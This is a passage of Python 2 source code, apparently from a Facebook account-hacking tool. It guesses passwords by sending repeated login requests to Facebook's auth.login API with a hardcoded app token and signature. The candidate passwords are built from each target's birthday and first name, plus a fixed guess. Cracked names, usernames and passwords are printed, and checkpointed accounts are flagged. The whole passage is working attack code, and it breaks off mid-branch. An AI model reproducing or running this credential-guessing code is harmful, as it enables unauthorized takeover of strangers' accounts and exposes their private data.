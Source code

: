 							menu_hack()
						else:
							if 'www.facebook.com' in y["error_msg"]:
								print "\033[1;91m[+] \033[1;92mFound"
								print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
								print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
								print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
								print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz3
								raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
								menu_hack()
							else:
								mode = a['birthday']
								pz4 = mode.replace('/', '')
								data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
								y = json.load(data)
								if 'access_token' in y:
									print "\033[1;91m[+] \033[1;92mFound"
									print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
									print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
									print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz4
									raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
									menu_hack()
								else:
									if 'www.facebook.com' in y["error_msg"]:
										print "\033[1;91m[+] \033[1;92mFound"
										print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
										print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
										print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
										print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz4
										raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
										menu_hack()
									else:
										lahirs = a['birthday']
										jay = lahirs.replace('/', '')
										pz5 = a['first_name']+jay
										data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
										y = json.load(data)
										if 'access_token' in y:
											print "\033[1;91m[+] \033[1;92mFound"
											print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
											print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
											print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz5
											raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
											menu_hack()
										else:
											if 'www.facebook.com' in y["error_msg"]:
												print "\033[1;91m[+] \033[1;92mFound"
												print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
												print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
												print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
												print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz5
												raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
												menu_hack()
											else:
												pz6 = "bintang123"
												data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
												y = json.load(data)
												if 'access_token' in y: